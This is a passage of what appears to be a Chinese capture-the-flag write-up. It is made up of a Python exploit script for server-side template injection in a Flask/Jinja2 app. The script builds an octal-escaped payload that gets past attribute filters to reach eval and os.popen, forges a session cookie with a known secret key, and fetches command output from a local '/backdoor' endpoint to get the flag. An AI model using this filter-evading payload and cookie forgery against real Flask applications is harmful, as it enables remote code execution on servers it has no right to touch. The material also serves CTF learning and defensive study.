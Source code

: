 ```python
# {{x.__init__.__globals__.__builtins__.eval('__import__("os").popen("dir").read()')}}
payload = "{{%print(xxx|attr(\"\"\\\\137\\\\137\\\\151\\\\156\\\\151\\\\164\\\\137\\\\137\"\")|attr(\"\"\\\\137\\\\137\\\\147\\\\154\\\\157\\\\142\\\\141\\\\154\\\\163\\\\137\\\\137\"\")|attr(\"\"\\\\137\\\\137\\\\147\\\\145\\\\164\\\\151\\\\164\\\\145\\\\155\\\\137\\\\137\"\")(\"\"\\\\137\\\\137\\\\142\\\\165\\\\151\\\\154\\\\164\\\\151\\\\156\\\\163\\\\137\\\\137\"\")|attr(\"\"\\\\137\\\\137\\\\147\\\\145\\\\164\\\\151\\\\164\\\\145\\\\155\\\\137\\\\137\"\")(\"\"\\\\145\\\\166\\\\141\\\\154\"\")({0}))%}}".format(eval_shell)
print(payload)
command = "python flask_session_cookie_manager3.py encode -s \"{0}\" -t \"{{'user':'{1}'}}\"".format(secret_key,payload)
print(command)

session_data = subprocess.check_output(command, shell=True)
print(session_data)
# linux和windows换行不一样，linux是去掉最后一个，windows是最后两个。
session_data = session_data[:-2].decode('utf-8')
# session_data = session_data[:-1].decode('utf-8')
print(session_data)

url = "http://127.0.0.1:8080/backdoor"
cookies = {"session": session_data}
res = requests.get(url=url, cookies=cookies)
# print(res.text)
pattern = r'<h1>(.*)</h1>'
result_content = re.search(pattern, res.text, re.S)
# print(result_content)
if result_content:
    result = result_content.group(1)
    print(result)
else:
    print("something wrong!")
```

得到flag
 ![在这里插入图片描述](assets/c0a7b61f2cc94e99a9bc6f957c6fb1c4.png)
